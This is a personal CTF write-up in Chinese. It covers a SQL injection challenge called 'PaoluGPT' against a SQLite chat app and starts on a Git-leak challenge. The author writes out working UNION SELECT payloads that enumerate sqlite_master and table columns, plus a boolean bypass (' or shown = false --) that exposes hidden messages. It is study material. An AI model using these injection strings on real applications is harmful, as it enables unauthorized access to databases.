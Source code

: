 还是慢了 想到源代码中的200毫秒等待 把200改成1，CV后覆盖原代码 

![image-20241117171036044](D:\ctf wp\40.2.assets\image-20241117171036044.png)

看wp有更简单的解法

![image-20241117172843411](D:\ctf wp\40.2.assets\image-20241117172843411.png)

![image-20241117172940174](D:\ctf wp\40.2.assets\image-20241117172940174.png)



## 77.PaoluGPT

![image-20241117182809181](D:\ctf wp\40.2.assets\image-20241117182809181.png)

第一个flag就在某个聊天记录里 写脚本一个个打开找或者人肉找

打开附件 感觉第二个flag需要sql注入数据库得到![image-20241117184945080](D:\ctf wp\40.2.assets\image-20241117184945080.png)

![image-20241117185700403](D:\ctf wp\40.2.assets\image-20241117185700403.png)

```sql
/view?conversation_id=' union select GROUP_CONCAT(tbl_name), GROUP_CONCAT(name) from sqlite_master union select title, contents from messages where id='
```

![image-20241117191808828](D:\ctf wp\40.2.assets\image-20241117191808828.png)

```sql
/view?conversation_id=' union select group_concat(name), group_concat(type) from pragma_table_info('messages') union select title, contents from messages where id ='
```

![image-20241117191953882](D:\ctf wp\40.2.assets\image-20241117191953882.png)

view?conversation_id=' or shown=0 union select title, contents from messages where id ='![image-20241117192140244](D:\ctf wp\40.2.assets\image-20241117192140244.png)



测试字符闭合成功

然后在`list()`中发现`results = execute_query("select id, title from messages where shown = true", fetch_all=True)`存在`shown`的判断，尝试将其修改为`false`，构造`' or shown = false --`直接返回含有flag的页面。![image-20241117190120491](D:\ctf wp\40.2.assets\image-20241117190120491.png)



## 78.Git泄露 ——Log

![image-20241118105628219](D:\ctf wp\40.2.assets\image-20241118105628219.png)

按题目提示是有git泄露，看看/.git路劲![image-20241118105720968](D:\ctf wp\40.2.assets\image-20241118105720968.png)

说明是有的
